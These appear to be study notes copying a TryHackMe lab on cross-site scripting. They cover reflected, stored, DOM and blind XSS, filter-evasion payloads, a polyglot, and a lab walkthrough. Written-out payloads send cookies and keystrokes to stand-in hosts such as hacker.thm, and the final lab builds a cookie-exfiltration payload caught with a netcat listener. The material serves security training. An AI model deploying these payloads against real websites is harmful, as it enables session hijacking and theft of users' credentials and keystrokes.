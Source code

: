 #+TITLE: Cross-Site Scripting

Prerequisites:
It's worth noting that because XSS is based on JavaScript, it would be helpful to have a basic understanding of the language. However, none of the examples is overly complicated—also, a basic understanding of Client-Server requests and responses.


Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.


Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.

[[https://hackerone.com/reports/415484][XSS found in Shopify]]
[[https://hackerone.com/reports/409850][7,500 for XSS found in Steam chat]]
[[https://hackerone.com/reports/449351][2,500 for XSS in HackerOne]]
[[https://hackerone.com/reports/283825][XSS found in infogram]]


* XSS Payloads

 What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.


The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).


Here are some examples of XSS intentions.


Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


<script>alert('XSS');</script>


Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>


Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:


<script>user.changeEmail('attacker@hacker.thm');</script>


Now that the email address for the account has changed, the attacker may perform a reset password attack.


The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.


* Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.


Example Scenario:

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.


"https://website.thm/?error=invalid input Detected" 

<p>invalid input Detected</p>

The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.


URL = Http://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>
PAGE SOURCE = <p><script src="https://attacker.thm/evil.js"></script></p>


The vulnerability can be used as per the scenario in the image below:


Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

    Parameters in the URL Query String
    URL File Path
    Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6)
  

* Stored XSS

  As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example Scenario:

A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.



Potential Impact:

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

    Comments on a blog
    User profile information
    Website Listings

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 
Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6).


* DOM Based XSS

 What is the DOM?

DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:


If you want to learn more about the DOM and gain a deeper understanding w3.org have a great resource.

Exploiting the DOM

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.


Example Scenario:

The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.


Potential Impact:

Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

How to test for Dom Based XSS:


DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.


When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

* Blind XSS

  Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

Example Scenario:

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

Potential Impact:

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

How to test for Blind XSS:


When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


A popular tool for Blind XSS attacks is [[https://xsshunter.com/][xsshunter]]. Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.


* Perfecting your Payload
  
The payload is the JavaScript code we want to execute either on another user's browser or as a proof of concept to demonstrate a vulnerability in a website.

Your payload could have many intentions, from just bringing up a JavaScript alert box to prove we can execute JavaScript on the target website to extracting information from the webpage or user's session.

How your JavaScript payload gets reflected in a target website's code will determine the payload you need to use. To Explain this, click the green Start Machine button on the right, and when the machine has loaded, open the below link in a new tab.
https://LAB_WEB_URL.p.thmlabs.com


The aim for each level will be to execute the JavaScript alert function with the string THM, for example:

<script>alert('THM');</script>

Level One:

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:


If you view the Page Source, You'll see your name reflected in the code:


Instead of entering your name, we're instead going to try entering the following JavaScript Payload: <script>alert('THM');</script>

Now when you click the enter button, you'll get an alert popup with the string THM and the page source will look like the following:


And then, you'll get a confirmation message that your payload was successful with a link to the next level.

Level Two:

Like the previous level, you're being asked again to enter your name. This time when clicking enter, your name is being reflected in an input tag instead:



Viewing the page source, you can see your name reflected inside the value attribute of the input tag:


It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: "><script>alert('THM');</script>

The important part of the payload is the "> which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.


Level Three:

You're presented with another form asking for your name, and the same as the previous level, your name gets reflected inside an HTML tag, this time the textarea tag.


We'll have to escape the textarea tag a little differently from the input one (in Level Two) by using the following payload: </textarea><script>alert('THM');</script>

This turns this:


Into This:


The important part of the above payload is </textarea>, which causes the textarea element to close so the script will run.

Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

Level Four:

Entering your name into the form, you'll see it reflected on the page. This level looks similar to level one, but upon inspecting the page source, you'll see your name gets reflected in some JavaScript code.


You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload ';alert('THM');//  which you'll see from the below screenshot will execute your code. The ' closes the field specifying the name, then ; signifies the end of the current command, and the // at the end makes anything after it a comment rather than executable code.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.


Level Five:

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the <script>alert('THM');</script> payload, it won't work. When you view the page source, you'll see why.


The word script  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.
Original Payload:
<sscriptcript>alert('THM');</sscriptcript>

Text to be removed (by the filter):
<sscriptcript>alert('THM');</sscriptcript>

Final Payload (after passing the filter):
<script>alert('THM');</script>


Try entering the payload <sscriptcript>alert('THM');</sscriptcript> and click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.
Level Six:


Similar to level two, where we had to escape from the value attribute of an input tag, we can try "><script>alert('THM');</script> , but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.


You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this /images/cat.jpg" onload="alert('THM'); and then viewing the page source, and you'll see how this will work.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.

Polyglots:


An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e


* Practical Example (Blind XSS)
  
  For the last task, we're going to go over a Blind XSS vulnerability. Make sure you terminate the previous machine and then click on the green Start Machine button on the right to load the Acme IT Support website. You'll need to either by connected to the TryHackMe VPN or open the AttackBox using the blue button at the top of the page. Once loaded, click on the link below or open it inside using the AttackBox browser to view the target website.


https://10-10-166-64.p.thmlabs.com


Click on the Customers tab on the top navigation bar and click the "Signup here" link to create an account. Once your account gets set up, click the Support Tickets tab, which is the feature we will investigate for weaknesses. 


Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 


Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.





Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:


</textarea>test


Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.





Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:


 </textarea><script>alert('THM');</script>


Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 


Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly you'll need to set up a listening server to receive the information; we'll discuss two methods of doing this:


One:

If you're connected to the TryHackMe VPN or using the TryHackMe AttackBox, you could set up a listening server using Netcat:


nc

           
user@machine$ nc -nlvp 9001

        


Two:

You can use the TryHackMe request catcher at http://10.10.10.100 (you must be connected to the TryHackMe VPN network or using the browser in an AttackBox for this to work). This service provides a unique URL that receives and displays HTTP and DNS requests made to it.


Now that you've decided on the method of receiving the exfiltrated information, let's build the payload.


</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>


Let's breakdown the payload:

The </textarea> tag closes the textarea field. 

The <script>tag opens open an area for us to write JavaScript.

The fetch() command makes an HTTP request.

{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

?cookie= is the query string that will contain the victim's cookies.

btoa() command base64 encodes the victim's cookies.

document.cookie accesses the victim's cookies for the Acme IT Support Website.

</script>closes the JavaScript code block.


Now create another ticket using the above payload, making sure to swap out the {URL_OR_IP} variable to your settings (make sure to specify the port number as well, in case you are using Method One). Now, wait up to a minute, and you'll see the request come through containing the victim's cookies. 


You can now base64 decode this information using a site like https://www.base64decode.org/, giving you the necessary information to answer the below question.

